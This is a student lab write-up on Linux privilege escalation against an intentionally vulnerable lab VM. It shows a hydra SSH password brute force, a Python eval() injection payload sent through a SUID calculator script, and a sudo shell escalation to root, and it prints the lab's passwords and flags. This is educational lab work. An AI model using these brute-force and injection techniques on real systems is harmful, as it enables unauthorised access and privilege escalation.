 ## Lab5 (actually 4): Privilege escalation on Linux
In this lab, we are to make use of various exploits and misconfigurations on a VM in order to connect to it and gain gradually gain higher priviledges.

## Setup (two virtual machines, both connected to the same network):
- Kali Linux (attacker)
- alpline-lab4-hackable-1 (victim)

My variant is 1, so I download `alpline-lab4-hackable-1.ova` and proceed as in lab 3.

Locate `.ova` file and extract it
```
tar -xvf alpline-lab4-hackable-1.ova
```

Convert to `qcow2` for UTM
```
qemu-img convert -f vmdk -O qcow2 alpline-lab4-hackable-1-disk001.vmdk alpline-lab4-hackable-1.qcow2
```

And setup in UTM as in lab 1.

![img-0](data/img-0.png)

Also I change two machines to Host-Only Network.

Kali Linux ip -- 192.168.128.2
alpline-lab4-hackable-1 ip -- 192.168.128.3

And ping on attacker machine
```
ping 192.168.128.3
```

![img-1](data/img-1.png)


And ssh to it.
```
ssh calculator@192.168.128.3
```

We dont know password so we will brute force it, it takes sooome time.
```
sudo apt install hydra
hydra -l calculator -P /home/kali/Desktop/rockyou.txt ssh://192.168.128.3
```

![img-2](data/img-2.png)

`host: 192.168.128.3   login: calculator   password: morbius
`

And now we can ssh with this password and run `./run_calculator`

![img-3](data/img-3.png)

Next, when looking for the files in current directory i found: calculator.py (owned by root with SUID bit set)
run_calculator (owned by admin with SUID bit set)
and makefile. 

When examining calculator.py I saw thet it was using `eval()` function to process user input also the script had some validation checks, but they were insufficient.

To  exploit this vulnerability, I injected Python code into the calculator, this allowed me to read the admin user's shell history backup file:

![img-4](data/img-4.png)

Here we see that admin pass is `08ifioafh98oAJDA`.


Using `eval()` exploit, we can also read the sudo flag
```
./run_calculator
1+(__import__('builtins').open('/tmp/sudo_flag.txt', 'w').write(__import__('builtins').open('/home/admin/sudo_flag.test', 'r').read()))+1
```

This revealed the sudo flag: `AFJS4073RJD30F0WJDD3920JD39D`

![img-5](data/img-5.png)

Now having the password we can switch to amdin user
```
su admin
```

Examining the admin's command history that we scrapped before we now can create a shell script in the admin's home directory:
```
echo '#!/bin/sh' > /home/admin/shell.sh
echo '/bin/sh' >> /home/admin/shell.sh
chmod +x /home/admin/shell.sh
```

And execute it:
```
sudo /bin/sh /home/admin/shell.sh
```

![img-6](data/img-6.png)


And yes, we can read flag, it is `XKSF345FSDCXDS002QXZZA0CV2`.
```
find / -name "root_flag.txt" 2>/dev/null
cat /root_flag.txt
```
![img-7](data/img-7.png)


